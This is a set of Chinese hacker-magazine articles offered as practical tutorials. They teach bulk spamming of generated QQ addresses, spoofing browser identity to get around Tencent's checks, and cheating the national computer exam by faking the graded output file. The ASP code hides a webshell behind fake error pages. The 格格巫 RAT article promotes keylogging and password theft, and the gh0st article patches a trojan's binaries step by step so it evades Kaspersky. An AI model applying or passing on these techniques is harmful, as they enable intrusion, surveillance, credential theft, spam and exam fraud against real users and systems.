“出名要趁早”，这是张爱玲很早说过的一句话。现在不管是制作个人网站还是推广个人软件，名气和点击率都很重要，只有“点击率上去了，下家就跟着上来了”，语出《大腕》。那么我们如何提高点击率呢？这里要提到的就是——暴力营销！本文我就教大家搭建自己的邮件服务器来做到邮件想发就发。

首先需要大家到 3322.org 去注册一个动态域名，记住一定要确保是 8800.ORG 结尾的，如图 1。

动态域名弄好后就使用“CMAILSERVER”这款软件来搭建一个 SMTP 邮件发送服务器吧。运行软件后点击“设置”按钮，在系统设置窗口中选择“单域名”，然后输入我们刚才建立的域名 xiaolong1212.8800.org，如图 2。

点击“确定”按钮保存设置，然后点击“新账户”，在弹出的账户窗口中输入账户 xiaolong 和密码 123456，如图 3，设置完毕后点击“确定”按钮。


保存设置。这里需要注意的是，因为我使用的是共享版本的 CMAILSERVER，而且共享版只支持五个账户，所以不要乱添加账户，否则到时候我们就无法发送成功了。这里我们只建立了一个账户，够用就行了！


这些都设置好后，接下来要做的就是得到收信者的邮箱了。我们打开 Excel，输入一个邮箱地址，也就是数字+@QQ.COM 类型的，输入完毕后拖动出一个列表来，如图 4、图 5。单击第一列的最上方，就会全选该列，然后点击右键，在弹出的快捷菜单中选择复制，此时把得到的邮件列表全部粘贴到“爱博邮件群发软件”中。“邮件发送服务器”就填写 xiaolong1212.8800.org，其实就是本机的 IP 地址，用户名和密码我们就输入 xiaolong 和 123456，发送者 Email 也填写 xiaolong@xiaolong1212.8800.org，称谓和回复地址都差不多，大家按图 6 所示进行填写即可。


接下来填写要发送的邮件主题和内容，然后点击“发送邮件”按钮就可以进行暴力营销学的实战运用了。现在，我们返回到“CMAILSERVER”中，可以在状态框中看到邮件发送的过程，如图 7。


上面介绍了设置单域名的方法，为了让读者们能够更好地理解，我们再来介绍一下多域名的设置方法。单击“设置”按钮，在弹出的设置对话框中选择“多域名”，然后单击“加入”按钮，在弹出的窗口中输入刚才的域名 xiaolong1212.8800.org，如图 8。


单击“确定”按钮保存设置，然后再点击“新账户”，在弹出窗口中输入账户 xiaolong1212@xiaolong1212.8800.org 和密码 123456，如图 9。来到“爱博邮件群发软件”中，只需要修改用户、密码以及发送者，就可以发送邮件了，如图 10。此时，我们来到受害者的邮箱去看看，可以看到对方已经成功地被我们给暴力营销了，如图 11。


图 9


图 10


图 11

上面介绍了使用软件进行邮件群发的方法，其实 QQ 本身就有个群发的功能，那就是 QQ 群邮件，如图 12。不过使用该方法通常会面临被退群的厄运，所以大家还是慎重选择使用这种方法了。


图 12

（本文所涉及到的 CMAILSERVER、爱博邮件群发软件已收录到光盘中）


### 3GQQ 幻想西游，我用电脑玩

现在有很多朋友使用手机玩 WAP 网游，3GQQ 幻想西游就是其中人气比较高的一个。平时我也经常玩，但是手机的屏幕太小了，玩起来总是让人感觉不爽，有时 GPRS 网络也不稳定，而且手机包的流量也是有限的，万一流量超出了产生巨额的话费那可不是闹着玩的（一般超出后是每 1K 流量三分钱，移动好黑啊）。要是能使用电脑来玩，那该有多好啊。经过不断的尝试，我终于找到了使用电脑玩手机 QQ 幻想游戏的方法。

首先，我们需要一款能够解析 WAP 网页（一般是 WML）的浏览器，常用的 IE 和傲游是解析不了的，不过 Opera 浏览器可以，而且 Opera 的浏览速度也是很不错的。直接使用 Opera 就能浏览大部分的 WAP 网页，只是对于手机腾讯网，我们还需要下点工夫，否则就会出现自动跳转到电脑网页的情况。事实上腾讯是通过判断是否为手机浏览器（即用户标识 UA）的方法来限制我们电脑的访问的，那么我们就来手工修改浏览器的 UA，以骗过检测来达到使用电脑上手机网的目的。破解步骤如下：Opera 的 UA 在其安装文件夹的 opera.dll 中，我们要先给它脱壳，使用 UnAspack 就可以（这里 Opera 的版本是 8.5，UnAspack 的版本是 1.2），如图 1。

然后我们使用十六进制编辑工具（WinHex）打开脱壳后的 opera.dll，选择“搜索”－“查找文本中”，填入 MSIE，点击“查找”后我们就可以找到 User Agent 附近的字段了，把有关 Opera 的更改掉，可以随便更改，但必须要字数一致，这里我给更改成了 BlackBerry，如图 2。


图 1


图 2

接下来我们就可以到 http://www.ipchicken.com/ 上看看自己的修改是否成功了，如图 3，UA 已经被修改过来了。

腾讯除了判断浏览器 UA 外，还会判断访问的 IP 是否为手机 IP，大家不用担心，我们同样也有应对的方法，就是通过中国移动或中国联通的代理服务器来登录。相比更改 UA，寻找代理服务器是不容易的，可以使用的移动和联通的代理非常少，而且大多数还不稳定，我几乎每次登录都要换一下。我们可以在各大代理服务器网站上寻找，也可以自己使用软件搜索，有能力的朋友也可以入侵服务器再开放代理服务，反正对于这个就要大家开动脑筋来解决了。找到可用的代理后就可以在 Opera 里设置代理了，点击“工具” - “首选项” - “高级” - “网络” - “代理服务器”，在 HTTP 内填入代理服务器的地址和端口就行了。现在，我们就能访问手机腾讯网了，如图 4，也能挂 WAP 网页版的 QQ 了。

我们进入幻想西游，如图 5，有时我们会遇到游戏进不去的情况，原因就是我们的 IP 虽然没有被手机腾讯网查封，可以进入手机腾讯网，但是却被 GM（3GQQ 幻想西游的技术支持）封了而导致进不了游戏，这时候我们就只有另找 IP 了。找到好的 IP 后就可以进入游戏和论坛了。


点击体验更好>>大页面
社区：下堂，灌篮，搜狗
QQ，游戏，书城，QQ空间
*QQ24小时在线级疯
火影82-111邀请人狂飙
【金融风暴登陆】运动
收评：沪指跌升127点
【新闻，天气，股票】
达赖破坏奥运活动公布

登录游戏后我们使用按键精灵等软件就能实现挂机了，这样不但操作方便而且还保护了手机键盘，可谓是一举多得呀。不过特别要提醒一下大家，使用电脑登录幻想西游是官方禁止的，如果被查出来封号了，可千万不要说我没有提醒过各位哦！

（本文所涉及到的 Opera、UnAspack、WinHex 已经收录到光盘中）

### 小心“黄山IE修复专家”中的猫腻

战神MARS

前段时间 IE 不知道怎么搞的，老是出现莫名其妙的问题，而且访问网站也是奇慢无比，估计是哪天不小心中招了吧，于是就到百度上去寻找修复工具，结果找到了“黄山IE修复专家”。据网上介绍，它可以反浏览器劫持病毒，超越 IE 修复极限，立足永久修复的治本之点，同时具备 IE 修复、杀 QQ 病毒、杀各种以驱动服务方式运行的病毒、杀各类木马（无进程木马、插入线程木马）、清除各种间谍广告程序、各种流行病毒及系统救援与日志上报于一身等。看着软件这么牛 X 的介绍，我就动心了，决定下载试用一下。

下载回来后，打开黄山IE修复专家，第一次使用的时候出现了一个“黄山IE修复专家提示您”的对话框，如图 1，不用管它，直接点击“确定”按钮将其关闭，然后程序的主界面就会出现了，如图 2。软件会默认进入“查杀修复”功能模块，我们点“立即修复”按钮对 IE 进行修复，等上大约十几秒钟，紧跟着一声杀猪般的警告提示音之后出现了一个“黄山杀毒软件”的警告提示窗口，提示我们“已清除病毒文件，系统将重新启动”，如图 3，点击“确定”按钮后系统就会自动重启了。

系统重新启动后我就发觉有些不大对劲了，以前瑞星监控中心和卡卡上网助手都是随系统启动的，但现在却不见了踪影。我心里想坏了，难道这个黄山IE修复专家被人动了手脚？赶紧检查一下，打开 360 安全卫士，扫描一下插件，哇，居然发现了 6 个恶评插件和 1 个其它插件。让我们来看看它们都是什么吧，6 个恶评插件分别是雅虎助手 & 上网助手、网络实名、Windows 临时文件、百度搜索伴侣、一搜工具条和奇迹世界盗号木马，1 个其它插件是……

由于该软件是一次性消费软件，请务必在下载前认真阅读以下说明：

1. 如果您的机器已经中了病毒，并且您使用的是正版瑞星、金山、江民杀毒软件，请您先升级杀毒软件到最新版本后再运行本软件，否则后果自负。
2. 本软件为共享软件，未注册版本在功能上没有任何限制，只是会定期弹出提示注册窗口，您可以选择注册或者不注册，但我们强烈建议您注册，因为只有注册后才能享受我们提供的在线升级服务。
3. 如果您在使用本软件的过程中遇到任何问题，请及时与我们联系，我们将竭诚为您服务。
4. 本软件不支持 Vista 操作系统，如果您使用的是 Vista 操作系统，请您不要使用本软件，否则后果自负。
5. 如果您在使用的过程中发现本软件有任何 BUG，请您及时向我们反馈，我们将对第一个发现 BUG 的用户给予一定的奖励。
6. 本软件的唯一官方网址是：http://www.xxx.com，请您认准官方网站，以免下载到假冒伪劣产品。
7. 本软件的最终解释权归本公司所有。


图 4

| 名称 | 状态 | 出品公司 | 描述 |
| ---- | ---- | -------- | ---- |
| 雅虎助手 | 恶评插件 | 雅虎中国 | 强行安装，难以卸载，强制修改 IE 主页，无法彻底卸载 |
| 上网助手 | 恶评插件 | 3721 | 强行安装，难以卸载，强制修改 IE 主页，无法彻底卸载 |
| 网络实名 | 恶评插件 | 3721 | 强行安装，难以卸载，强制修改 IE 主页，无法彻底卸载 |
| Windows 临时文件 | 恶评插件 | Microsoft | 系统垃圾文件，占用磁盘空间，影响系统性能 |
| 百度搜索伴侣 | 恶评插件 | 百度 | 强行安装，难以卸载，强制修改 IE 主页，无法彻底卸载 |
| 一搜工具条 | 恶评插件 | 雅虎中国 | 强行安装，难以卸载，强制修改 IE 主页，无法彻底卸载 |
| 奇迹世界盗号木马 | 恶评插件 | 不详 | 盗取奇迹世界游戏账号和密码，危害用户账号安全 |


## 傻瓜黑客

个其它插件则是百度工具栏，如图4，图5。


看到这些，我着实吓了一跳，赶紧使用360安全卫士将这些恶评插件全部清理了，看到如图6所示的提示界面，心里总算舒坦多了。
小编注：软件安装的时候可选是否安装那些插件，但选否360依然扫描出那些插件，其实只能怪作者写的安装程序有问题，原理是安装时候选安装插件就释放执行插件，安装时候选不装插件就释放不执行（正常的应该是不释放），360又比较弱智完全靠文件路径和文件名判断插件，安装时候如果选不装插件的话实际插件不会运行的。还有上文写的监控中心和卡卡助手没启动应该不是被流氓插件破坏，图1第一条就提示执行的时候一定要先关闭杀软。
（本文所涉及到的360安全卫士以及有问题的黄山IE修复专家已收录到光盘中）


## 全国计算机等级考试

### 上机不会做也可以拿满分

国家计算机等级考试想必大家都知道吧，它分为笔试和上机（二级或者三级考试内容）两部分，只有两个都通过了才会颁发相应的证书，证书在一定程度上也肯定了你的计算机水平。据我所知，笔试部分只要你把往年的试卷仔细研究一下，一般花费一个月时间，考过应该没什么问题，难就难在上机题目上。上机题目是随机抽题，有一定的运气成分，我以前就听说过上机考试有漏洞，但当时怎么也不相信，我心想国家考试怎么能有漏洞呢，不过现在我不得不承认国家计算机考试的确有漏洞。

具体的利用方法如下：首先我们到官方网站下载一个模拟上机软件，它和真实的上机考试效果是一样的，网址是http://www.ncre.cn/ncre_new/download/index.html，我们将其安装到电脑上并运行，如图1。这里我简单介绍一下计算机等级考试二级C语言上机部分，上机部分一共有三个题目：一个填空（30分），一个改错（30分），一个程序编制（40分）。漏洞就出现在编程上。前面的两个题目都非常简单，程序编制则是给你一段程序来实现一个功能，比如说排序，大部分代码已经给出了，我们只需要输入相应的处理代码即可，一般也就是写一个函数，而对于这道题的评判标准是看你的输出结果和正确的输出结果的吻合度。好了，下面我用一个实际的例子来说明这个BUG。


- 登录考试系统并选择题，我们点击“程序设计”后就可以看到如下内容，如图2。
- 按照对话框上的提示我们进入：\WEXAM\24010001文件夹下，这时会看到如图3所示的几个文件。


- 使用记事本打开in.dat文件，就会看到如图4所示的内容，这个就是输入的值，也就是题目中的a数组和b数组的值。按照题目的意思，我们可以想到a数组和b数组的长度是一样的，不然就无法相加了，还有就是输入数组一行是a数组，一行是b数组。例如上面的第一行1，2，3，4，5是a数组，第二行6，7，8，9，10就是b数组，以下的依此类推，按照题目的意思第一行和第二行得到的c数组应该是101 85 73 65 61。
- 我们使用记事本新建一个文件，按照题目的规则将其算完，每行5个数据，数据之间有个空格，需要说明的是，如果你的数据格式有问题的话照样是零分处理，原因很简单，因为计算机不是人脑，它只会按照事先给出的程序来进行评分，那我们要如何得到输出格式呢？其实很简单，就是不输入任何内容而运行一下程序，然后再打开out.dat文件观察数据之间的格式，我们按照所观察的格式进行填写即可，填好的内容如图5所示。
- 将新建的记事本文件更改为out.dat，至于如何查看到扩展名的方法很简单，我们右击“我的电脑”，选择“工具”->“文件夹选项”->“查看”，将“隐藏已知文件类型的扩展名”前的勾去掉后保存即可。这时候我们交卷，试想一下我们会得到什么结果呢？如果评分标准是按照输出答案来评分的话我们的得分就应该是40分，因为前面两道题我们都没有做，第三道题目满分即40分，如果是0分则证明不是按照输出结果评分或者有其它的评分标准。我们点击交卷看看，如图6，果然不出所料，我们连程序都没看就把这道题目做满分了。


最后我们再总结一下操作过程：首先登录计算机等级考试系统，打开程序编制的题目，一定要看清楚程序编制的题目，实现方法一般都很简单的，然后我们打开输入的文件，一般是in.dat，现在开始作弊，新建一个记事本文件，名字为out，后缀为dat格式，也就是out.dat，然后编辑里面的内容，也就是将in.dat里面的数据按照题目的意思手工计算出来并填写到out.dat中，最后一定要记住保存文件。这里再次提醒大家，我教给大家的只是方法而已，并不是提倡大家去作弊哟。

### 守护你的小马——隐藏小马引发的讨论

小楼听雨& crazy[J.L.S.T]

某天，我正混迹于论坛上，突然一款经过某位同学自己加工的小马进入了我的视线，有很多和我一样的小菜想要收藏它，但是这位同学却没有发布出来，我心想不就是加了个参数识别嘛，我也学习过几天的asp，于是就开始自己的diy之路。

#### 抛砖篇

仔细的观察了那位同学的小马，正常访问小马地址会返回“找不到服务器”的页面，但是在小马地址后面加上先前设定好的参数（比如“?xly=hackerxfiles”）就会正常显示出小马了。首先我让自己断开网络连接随便访问一个网站，故意造成找不到服务器的假象，然后把页面保存了下来，开始加工，十几分钟后小马就新鲜出炉了，很简单的参数识别，关键代码如下：


```
<html>
<head>
<%
'代码略
If request("xly")="hackerxfiles" then%>       '判断传入参数是否为hackerxfiles
<!--#include file="./inc/aspcheck.asp"-->  '此处为你的小马代码，若是则执行此处代码
<%else%>                                    '否则不执行这里
'代码略
<%end if%>
</body>
</html>
```

这样就制作完毕了，现在来欣赏一下我们的杰作，添加参数与不添加参数的效果对比如图1，图2所示。

#### 引玉篇

赶快把自己的杰作发到了坛子里跟小菜们分享一下，然后我就去上课了，放学后到论坛一看，没想到一石激起千层浪，首先一位牛牛针对我的小马体积太大的弊端，提出使用404页面伪装不仅能减少小马的体积，还能达到更好的伪装效果。大家都知道，正常情况下在访问的页面不存在时会出现404错误，而我们的小马明显是存在的，那如何让网页显示出错误页面呢？下面用到的这种方法就比较巧妙了，有效的精简了代码，代码如下：

```asp
<%
if request("xly")<>"hackerxfiles" then
response.write("<iframe src=hackerxfiles width='100%' height='100%' frameborder='no' border='0' framespacing='0' scrolling='No'></iframe>") '框架页面
else
%>
……'小马代码
<%end if%>
```

代码开始部分依然是判断传入的参数值是否为 hackerxfiles，如果是的话就执行真实小马，如果不是的话就使用 response 对象返回浏览器一个框架网页，这个框架页面调用了一个叫做hackerxfiles 的文件，然而很明显服务器上不可能存在这个文件，这样404页面就被完全被伪造出来了，添加参数与不加参数的效果对比如图3，图4所示。

图3


图4


接着 crazy 又给出了另外一种伪装的方法，来看代码：

```asp
<%
If Request.QueryString("xly")<>"hackerxfiles" Then
Response.Status="401 Unauthorized"
Response.AddHeader "WWW-Authenticate", "BASIC"
Else%>
……此处为你的小马代码
<%End If%>
```

上面的代码如果没有传入正确参数，将会使用 AddHeader 方法要求客户端使用 BASIC 验证，强制浏览器显示一个用户名/口令的对话框，如图5，保证让那些“非法”访问你小马的管理员或小黑们摸不着头脑，而传入正确参数后小马就会正常显示，如图6。

图5


图6


文章到这里就结束了，除了给叉子们提供了几种伪装小马的方法外，还希望叉子们能够在看 X 档案的同时，多和其他同学交流交流，肯定会让你受益匪浅的，大家有什么疑问的话可以来论坛找我，我的 ID 是小楼听雨。（本文所涉及到的代码已收录到光盘中）

### 《黑客 X 档案》杂志征订通告

黑客 X 档案 2009 年全年杂志即日起开始征订，需要的读者可以通过邮局汇款的方式来订购我们的杂志和相关图书，邮购全年杂志的话，汇款金额为 150 元（已包含了 36 元的挂号费），请读者在汇款单中详细填写自己的姓名，邮编和地址，并在汇款单的附言栏中写清你要邮购的杂志期数或是图书名。

汇款地址：北京市海淀区增光路 45 号 收款人：《黑客 X 档案》邮购部 邮编：100037

另外，读者们也可以通过我们的官方淘宝小店来购买杂志和相关图书，淘宝小店的网址为：http://shop36372340.taobao.com/，邮购部咨询电话：010 — 88560080

### “格格巫”摇身一变成木马

痛并快乐着

许多和我年龄差不多的朋友，小时候都看过动画片《蓝精灵》吧，里面有一个印象非常深刻的反面人物——格格巫。最近在网上无意间发现了一款全新的国产木马，居然也叫“格格巫”，由此勾起了我很多童年的记忆。那么这款“格格巫”木马到底怎么样呢？如果大家还没有接触过它的话，就听我慢慢道来。

#### 一、配置木马服务端

从网上下载最新版本的“格格巫”木马，我们先来配置一个服务端程序，点击“生成服务端”按钮，在弹出的窗口中进行服务端的配置。木马在服务端的连接方式上，可以使用域名、网址、IP地址等多种方式来实现连接，并且可以一次设置多个地址进行连接。这样可以保证在一个地址失效的情况下，用户仍然可以有效的控制服务端程序。

“安装选项”用于服务端程序的相关设置，在“安装后程序名”中设置服务端程序安装到系统中的名称，用户可以选择安装到“系统目录”和“Windows 目录”。“启动方式”用于设置服务端的启动方法，“格格巫”为用户提供了两种启动的方法，分别为传统的注册表启动以及通过 ActiveX 插件进行启动，如图1。


为了提高服务端程序的隐蔽性以及穿透网络防火墙的能力，服务端程序采用了线程插入技术。在“进程选项”中选中“尝试插入已有进程”，在“被插入进程名”中输入想让线程插入的进程名称，木马默认是插入到 IE 浏览器的进程中，当然大家也可以更改为其它的进程，如图2。配置完所有的选项后，点击“生成服务端”按钮即可。生成的服务端程序只有 32K 左右，非常适合我们用于制作网页木马。

#### 二、远程的控制操作

接下来我们看看“格格巫”木马包括哪些控制命令，首先在虚拟机中运行生成的服务端程序，很快就会有远程服务端上线，并且会弹出一个类似于 MSN 好友上线的提示框。通过“用户列表”，可以查看到远程计算机的 IP 地址、用户名称、连接类型以及系统等情况，如图3。

现在我们就可以对远程计算机进行控制管理了，我依次按照工具栏中的顺序为大家介绍每个控制命令。文件管理作为一个必备的功能，几乎每一款木马中都会包含，“格格巫”木马当然也不例外。点击工具栏中的“文件操作”，就可以对远程系统中的文件进行管理了，首先点击左边的磁盘命令下拉列表，接着从中选择需要查看的磁盘目录，当然也可以通过后面的命令行直接输入地址。在文件窗口中通过点击鼠标右键，用户可以对选择的文件进行上传、下载、删除、运行等操作。当文件在进行传输时，我们可以通过窗口下面的进度条查看到文件传输的进程。由于“格格巫”木马不仅支持文件的断点续传，还支持多线程操作，所以我们可以一次传输多个文件或者一个文件夹，如图4。


由于木马采用了多线程技术，因此除了可以进行多个控制命令操作外，还能进行多个文件的传输以及同时对多台计算机系统进行控制。“格格巫”木马除了传统的文件管理功能外，木马的“文件搜索”选项还可以帮助用户查找需要的磁盘文件。首先在命令行中输入查找的文件目录、文件类型以及文件名称等，然后点击窗口中的“搜索”按钮就可以了。当查找到用户所需要的文件后，就会在文件窗口中并列的显示出来。用户也可以对这些查找到的文件进行管理操作，比如下载、运行、删除、重命名等，如图5。另外通过右键菜单中的“打开下载文件夹”命令，可以马上打开下载到本地的文件信息。


现在点击工具栏中的“系统操作”，在弹出的窗口中就可以对远程系统进一步的操作了，比如通过“系统信息”选项可以看到远程系统的相关信息，如系统版本、用户名、系统目录、IP 地址等信息，甚至可以看到远程系统中杀毒软件和防火墙的信息。另外还可以进行服务端程序的卸载、关闭、重启等操作。通过“进程管理器”和“窗口管理器”选项中的命令，用户可以方便查看到远程系统中的进程和窗口信息，并且能够对这些内存进行管理。


比如通过进程管理器可以查看到远程系统当前的进程信息，我们清楚的看到服务端程序利用的IE浏览器进程，通过“结束进程”命令可以关闭不需要的进程信息，如图6。同样利用窗口管理器可以查看远程系统的窗口消息，可以对这些窗口进行关闭、显示、隐藏、修改窗口名称等操作，如图7。在“密码列表”选项中，选中下面的“包括IE保存密码”选项，客户端就可以对缓存中的密码进行获取，从密码窗口可以详细的显示截获的密码类型、用户名、密码、来源等信息。


图6


图7

如果我们想查看远程系统的屏幕内容，只需要点击工具栏中的“屏幕操作”按钮即可。在弹出的“屏幕查看”窗口中，点击“开始”或“单次”按钮，就可以对远程屏幕进行查看。其中点击“开始”按钮可以连续不断的捕捉远程屏幕信息，而“单次”按钮一次只能捕捉一张远程桌面的图片。通过对“间隔”选项进行相关的设置，可以设置连续捕捉的间隔时间。如果用户还选中了窗口中的“保存”选项，“格格巫”木马会自动将捕捉到的图片保存到其中的目录中。木马默认将下载的文件格式设定为BMP，虽然通过JPG可以更改下载文件的格式，但是该版本中暂时还不能使用该功能。如果再选中窗口中的“键盘”和“鼠标”这两个选项，用户就可以直接在捕捉的图片上通过鼠标、键盘进行远程控制操作，就像在自己的电脑屏幕前操作一样简单，如图8。


图8

我们单击“远程CMD”命令，该命令也是当前木马中的一个常见功能。它可以模拟一个远程系统的CMD窗口，在里面就可以执行大量终端服务命令以及执行一些只能在CMD窗口运行的程序，这样也可以更好的对远程系统进行控制。不过这个功能和其它木马的功能有所不同，其它木马中可以直接执行相关命令，而在“格格巫”木马里要想成功的执行CMD命令，首先需要在命令行输入cmd.exe来调用远程系统中的CMD功能，然后才能在调用出来的窗口中输入所需的CMD命令，如图9。


图9

除了通过工具栏中的命令进行控制外，还可以通过右键菜单中的命令来控制，比如在菜单中出现了一个“键盘记录”功能，点击这个“键盘记录”命令后，在弹出的窗口可以看到“离线键盘记录”和“在线键盘记录”两个部分。通过“离线键盘记录”命令，“格格巫”木马可以获取服务端在离线状况时相关的键盘操作，当然前提是在“离线键盘记录”窗口选择了相关命令才行。如果服务端程序目前在线，就可以通过“在线键盘记录”命令截获远程系统中的键盘操作，如图10。从中我们可以看出，“键盘记录”功能虽然可以记录下任意的键盘操作，但还是不能区分出英文信息和中文信息。也就是木马不能成功的截获中文信息，这也是很多包括键盘记录功能的木马所缺的，因此该功能还需要进一步的加强才行。


图10

除了上面介绍的这些主要功能外，“格格巫”还包括其它的一些控制功能，比如服务端升级、上传创建、上线设定、集群操作等。集群操作可以让选择的服务端程序统一的打开相同的网页页面，或是下载指定的相同的文件等。不过这些功能有的目前还在开发中，这里就不再进行相关的介绍了，大家可以以后尝试新的版本。


#### 三、总结

总的来说，“格格巫”木马还是一款非常不错的木马程序，将现在主流的木马技术都成功的结合到了一起。不过我对该款木马测试完后，发现它和知名的“彩虹桥”木马非常的相似，不知道“格格巫”是不是大量的借鉴了“彩虹桥”的内容。如果大家现在不知道选择哪款木马的话，就赶紧下载一个“格格巫”木马来试试吧。（本文所涉及到的格格巫远程控制已收录到光盘中）

### gh0st 轻松通过卡巴主动防御

txcbg

gh0st 是我使用过的仅有的几款能过卡巴主动防御的木马之一，它的功能非常不错，在以前的黑客 X 档案上也曾经详细的介绍过这款木马的使用。gh0st 的最新版本 gh0st3.5_修正版在刚出来时是能过卡巴主动防御的，软件已经发布一段时间了，自然也就被卡巴查杀了。今天我就要通过免杀处理来让它重新过卡巴的主动防御。

先来说一下免杀 gh0st3.5_修正版的思路和方法，gh0st 服务端的 exe 文件里包含了一个 dll 文件，dll 文件中又包含了一个 sys 文件，其中 sys 文件是过卡巴主动防御用的。生成一个服务端后，先把 dll 文件从 exe 文件中导出来，然后再从导出的 dll 文件中导出 sys 文件。先免杀 sys 文件，免杀完成后导入原 dll 文件，然后再免杀导入了免杀 sys 文件的 dll 文件，免杀完成后把免杀好的 dll 文件导入到 exe 文件中，最后再对导入了免杀 dll 文件的 exe 文件进行免杀就可以了。至于免杀，我决定使用修改特征码的方法来进行。

首先生成一个服务端（默认的名字是 server.exe），上线地址我使用的是 127.0.0.1（大家也可以换成自己的 IP 地址或使用动态域名），使用升级到最新病毒库的卡巴扫描一下，已经被查杀了，如图 1。


下面来进行免杀处理，使用 Restorator2006 打开服务端 server.exe，把资源“101”导出为“101.dll”，如图 2。

再使用 Restorator2006 打开 101.dll，把“BIN”文件夹下的“102”资源导出为“102.sys”，导出来的“101.dll”和“102.sys”不出所料的也已经被卡巴报毒了。

既然是使用修改特征码的方法来进行免杀，就先使用 MyCCL.exe 定位“102.sys”的卡巴病毒特征码，具体定位过程我就不多说了，不会的朋友可以参考以前 X 档案中的相关文章，定位结果为“[特征] 00000696_00000002”。使用 C32Asm 以十六进制模式打开“102.sys”，按 CTRL+G 来到 00000696 处，发现不是字符串，看来简单的大小写互换的方法是不行了，需要改汇编代码了。在 00000696 处点鼠标右键，选择对应汇编模式编辑就来到了如图 3 所示的地方，关键代码如下：

```
SUB ESP,EAX
PUSH EBX
PUSH ESI
PUSH EDI
MOV EAX,[EBP-8]
MOV EBP,[EBP+8]
```


特征码在 00010695-00010697 这三个字节中，怎么修改呢？制作过免杀的朋友可能都想到了跳转法，这里先不用它，先试试代码互换位置，如果不行的话再使用跳转法，毕竟代码互换要比跳转法操作简单。我注意到 00010695 处的汇编代码占了 3 个字节，而它上面的从 00010692 到 00010694 的三个 PUSH 命令也恰好占了三个字节，互换一下位置行不行。把从 00010692-00010697 的 6 个字节依次通过鼠标右键选择“汇编”->“nop”，使用 nop 填充，然后再依次写入下边的汇编代码：MOV EAX,[EBP-8], PUSH EBX, PUSH ESI, PUSH EDI, 写入完成后的代码如图 4 所示，即把 MOV EAX,[EBP-8]和 3 个 PUSH 命令上下互换了一下位置。


把修改后的文件另存为“102(修改后).sys”，使用卡巴扫描一下，已经不查杀了。下面该把修改后的sys文件导入到101.dll中了吧？不，sys文件还没有免杀完呢，经过以上的修改免杀的目的是达到了，但驱动文件却不能成功安装和加载了，过卡巴主动防御还要靠它呢，那该怎么办呢？驱动文件的免杀跟exe和dll文件的免杀不同的是修改完特征码后还要修改文件的校验和，不修改的话驱动文件不能加载，修改驱动文件的校验和可以使用PEEditor，也可以使用PEInfo，我使用的是PEInfo。打开PEInfo，通过“打开文件”按钮选择“102(修改后).sys”，点一下那个左下角带个问号的按钮，后面的数字就由原来的0000D65A变成了0000ED43，再点一下“修改”按钮就完成了修改，如图5。


修改后的驱动文件还能不能用呢？当然可以通过导入dll文件，再把dll文件导入原服务端进行测试，但这样比较麻烦，我有更简单的方法，要用到的工具是驱动加载工具（InstDrv –V1.3中文版），大家可以从http://bbs.pediy.com/showthread.php?t=63374下载到，它可以实现驱动文件的安装、启动、停止、卸载。如果一个驱动文件在从左到右依次执行这4项操作时都提示成功，尤其是在启动时提示成功，就说明驱动程序的功能没有受到破坏，可以正常使用；反之，如果一个驱动文件在启动时提示错误，甚至在安装这个驱动文件时就提示错误，则很可能是这个驱动文件受到了破坏，已经不能实现它的功能了。把修改过校验和的“102(修改后).sys”拖到驱动加载工具上，点击“安装”，提示“驱动服务安装成功”，再点“启动”，提示“驱动服务启动成功”，如图6，再点“停止”和“卸载”按钮，也都提示成功了，说明我们前面修改的驱动文件“102(修改后).sys”很可能修改成功了。


为了更直观地说明驱动文件修改后要修改校验和的重要性，我把没修改过校验和的“102(修改后).sys”使用驱动加载工具安装，安装时提示成功，但启动时就出错了，提示不是有效的驱动，如图7。

所以我们在免杀驱动文件时一定不要忘了修改校验和哦。驱动文件的免杀制作好了，把免杀的“102(修改后).sys”导入到“101.dll”文件中，如图8。

然后点“保存”按钮，我把导入后的dll文件命名为“101（导入免杀驱动后的）.dll”，使用卡巴扫描一下“101(导入免杀驱动后的).dll”，意料之中的被查杀了，使用MyCCL定位得到的病毒特征码是00010D19_00000002，特征码只有一处，使用C32Asm.exe以十六进制模式打开“101(导入免杀驱动后的).dll”，按CTRL+G来到00010D19处，发现是乱码，放弃直接改大小写，使用OC把00010D19转换成内存地址10011919，使用OllyICE打开，按CTRL+G来到10011919，附近的代码如下：

```
10011914  |.  53            push    ebx
10011915  |.  E8 F8FFFFF     call    1000A210
1001191A  |.  83FE 01        cmp     esi, 1
```

发现是一个call，不敢随便nop掉，还是老老实实的使用跳转法吧，在下面从10011E6A的空白区域写入代码，把“call 1000A210”nop掉，然后写入汇编代码“jmp 10011E6A”，再来到10011E6A处，写入代码：

```
call    1000A210
jmp     1001191A
```

按鼠标右键，选择“复制到可执行文件”->“所有修改”->“全部复制”->“保存文件”，如图9，图10。


把文件保存为“101(免杀处理后的).dll”，使用卡巴扫描一下，已经不查杀了。dll文件的免杀就制作成了。把免杀的“101(免杀处理后的).dll”使用Restorator导入到server.exe中，然后保存文件，我给它起名“server(导入免杀dll后的).exe”，又被卡巴查杀了。


使用 MyCCL 定位得到病毒特征码 0000119F_00000002，也是只有一处特征码，也不能使用互换大小写的方法，使用 OC 转换后得到内存地址 00401D9F，使用 OD 打开程序来到下边代码处，代码如下：

```
00401D9A  |.  6A 01         push 0x1
00401D9C  |.  8D9424 002000 lea edx, dword ptr [esp+0x2000]
00401DA3  |.  6A 00         push 0x0
00401DA5  |.  52            push edx
00401DA6  |.  6A 00         push 0x0
```

还是使用跳转法，空白区域从 004035C0 开始，把从 00401D9C 和从 00401DA3 开始的两行代码 nop 掉，然后从 00401D9C 开始写入代码 “jmp 004035C0”，来到 004035C0 处，依次写入如下汇编代码：

```
lea     edx,dword ptr [esp+2000]
push    edx
jmp     00401DA3
```

然后保存文件为“server(免杀后的).exe”，使用卡巴扫描一下，已经不查杀了，如图 11。把卡巴的主动防御全部打开，双击“server(免杀后的).exe”运行，卡巴没有任何反应，而木马已经上线了，如图 12。


我们再来看看功能是否完好，屏幕监控、键盘记录、远程终端等功能一切正常，而且在使用容易被卡巴主动拦截的键盘记录和执行命令时，卡巴也没有任何反应，如图 13。


至此，让 gh0st 过卡巴主动防御的目标已经完成。当然了，我们还可以对免杀后的服务端（不带壳的）进行加壳、加花、修改 PE 头等操作，从而使木马免杀的时间更长或躲过其它杀毒软件的查杀，在这里我就不做了。另外，连卡巴的主动防御都过了，对于过国内三大杀毒软件的主动防御应该也不是很困难的事了，有兴趣的朋友可以试一下。

